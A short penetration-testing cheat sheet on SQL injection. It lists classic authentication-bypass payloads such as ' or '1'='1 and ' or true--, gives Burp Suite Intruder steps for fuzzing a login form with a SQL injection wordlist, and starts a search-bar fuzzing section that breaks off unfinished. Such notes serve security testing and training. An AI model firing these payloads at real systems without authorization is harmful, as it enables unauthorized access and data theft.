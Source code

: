 # SQL Injection

https://xapax.gitbooks.io/security/content/sql-injections.html

## This is the most classic, standard first test:
	
	' or '1'='1

## Then you have:
	-'
	' '
	'&'
	'^'
	'*'
	' or ''-'
	' or '' '
	' or ''&'
	' or ''^'
	' or ''*'
	"-"
	" "
	"&"
	"^"
	"*"
	" or ""-"
	" or "" "
	" or ""&"
	" or ""^"
	" or ""*"
	" or 1=1 --
	or true--
	" or true--
	' or true--
	") or true--
	') or true--
	' or 'x'='x
	') or ('x')=('x
	')) or (('x'))=(('x
	" or "x"="x
	") or ("x")=("x
	")) or (("x"))=(("x
	
## Login form fuzzing

1. Submit login request with test info
    - User: testadmin@test.com
    - Pass: test
3. Intercept login POST request with BurpSuite
4. Send POST to Intruder
5. Intruder -> Positions -> Clear$
6. Highlight testadmin@test.com -> Add$
7. Payloads -> Payload Options -> Load -> /usr/share/wordlists/wfuzz/Injections/SQL.txt
8. Start Attack
9. Look for HTTP 500 responses to view structure of submitted SQL requests and examine for vulnerabilities/unsanitized input

## Search bar fuzzing

1. Find valid search. IE "apples" or try

	   '
	   "
	   ||
	   :
	   ;
	   
2. 
	   
	   
